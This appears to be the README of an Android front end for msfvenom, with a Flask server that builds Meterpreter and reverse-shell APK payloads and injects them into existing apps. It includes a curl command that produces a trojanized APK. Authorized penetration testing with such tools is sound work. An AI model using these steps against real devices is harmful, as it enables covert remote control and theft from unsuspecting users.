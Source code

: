 # MSFVenom-GUI (Android Application)

An Android application that provides a graphical user interface (GUI) for MSFVenom, making payload generation and APK injection easy and accessible on your mobile device.

## Features

- **APK Payload Generation**: Generate Android payloads directly as APK files
- **APK Injection**: Inject payloads into existing APK files (via companion server)
- **Multiple Payload Types**: Support for various Android payloads including Meterpreter and shell payloads
- **Network-Based Architecture**: Uses a companion server for msfvenom execution
- **User-Friendly Interface**: Intuitive GUI with real-time feedback

## Architecture

Due to Android security restrictions, this application uses a hybrid architecture:

1. **Android App**: Provides the user interface and handles user input
2. **Companion Server**: Runs msfvenom commands and serves generated payloads
3. **Network Communication**: App communicates with server via HTTP API

## Installation & Setup

### 1. Install Metasploit Framework (Server Side)

On your server/computer (Linux/macOS):

```bash
# Install Metasploit Framework
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall

# Verify installation
msfvenom --help
```

### 2. Set Up the Companion Server

```bash
# Install Python dependencies
pip3 install flask

# Run the server
python3 msfvenom_server.py
```

The server will start on `http://localhost:8080` by default.

### 3. Install the Android App

1. Build the APK using Android Studio or Gradle:
   ```bash
   ./gradlew assembleRelease
   ```
2. Install the generated APK on your Android device
3. Grant necessary permissions when prompted

## Usage

### Basic Payload Generation

1. **Launch the app** on your Android device
2. **Configure server connection**:
   - Enter your server URL (e.g., `http://192.168.1.100:8080`)
   - Tap "Test Server Connection" to verify connectivity
3. **Set payload parameters**:
   - Select payload type from dropdown
   - Enter LHOST (your IP address)
   - Enter LPORT (listening port)
4. **Generate payload**:
   - Tap "Generate APK Payload"
   - Wait for generation to complete
   - APK will be saved to Downloads folder

### APK Injection (Server API)

You can also inject payloads into existing APK files using the server API:

```bash
curl -X POST \
  -F "apk=@/path/to/original.apk" \
  -F "payload=android/meterpreter/reverse_tcp" \
  -F "lhost=192.168.1.100" \
  -F "lport=4444" \
  http://localhost:8080/inject \
  -o injected_payload.apk
```

## API Endpoints

The companion server provides the following endpoints:

- `GET /status` - Health check
- `GET /generate` - Generate payload
- `POST /inject` - Inject payload into APK
- `GET /payloads` - List available payloads

## Supported Payloads

- `android/meterpreter/reverse_tcp`
- `android/meterpreter/reverse_https`
- `android/shell/reverse_tcp`
- `android/shell/reverse_https`

## Security Considerations

- **Network Security**: Use HTTPS in production environments
- **Access Control**: Implement authentication for the server API
- **Firewall**: Restrict server access to trusted networks only
- **File Cleanup**: Server automatically cleans up temporary files

## Troubleshooting

### Common Issues

1. **Connection Failed**:
   - Verify server is running
   - Check firewall settings
   - Ensure correct IP address and port

2. **Permission Denied**:
   - Grant storage permissions to the app
   - Check Android security settings

3. **Payload Generation Failed**:
   - Verify msfvenom is installed on server
   - Check server logs for detailed error messages

### Server Logs

Monitor server logs for debugging:
```bash
python3 msfvenom_server.py
```

## Requirements

### Android App
- Android 12+ (API level 31+)
- Storage permissions
- Network access

### Server
- Linux/macOS/Windows
- Python 3.6+
- Metasploit Framework
- Flask (`pip3 install flask`)

## Disclaimer

This application is for educational and authorized penetration testing purposes only. Do not use it on systems you do not own or have explicit permission to test. The authors are not responsible for any misuse of this software.

## License

This project is provided as-is for educational purposes. Use responsibly and in accordance with applicable laws and regulations.

---

Created by [webmaster-exit-1](https://github.com/webmaster-exit-1)
